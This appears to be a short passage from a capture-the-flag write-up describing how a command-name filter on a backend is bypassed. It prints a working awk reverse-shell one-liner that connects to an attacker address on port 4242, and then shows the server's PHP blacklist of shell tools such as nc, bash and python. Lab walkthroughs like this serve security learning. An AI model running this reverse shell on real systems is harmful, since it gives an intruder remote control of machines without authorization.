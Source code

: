 <img src="images/ls.png">


<img src="images/telnet.png">


The backend is probably blocking some commands from running based on their name.


Getting a reverse shell with awk

```awk 'BEGIN {s = "/inet/tcp/0/10.8.191.218/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null```

<img src="images/awk.png">


We can now see the blacklisted commands

```
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
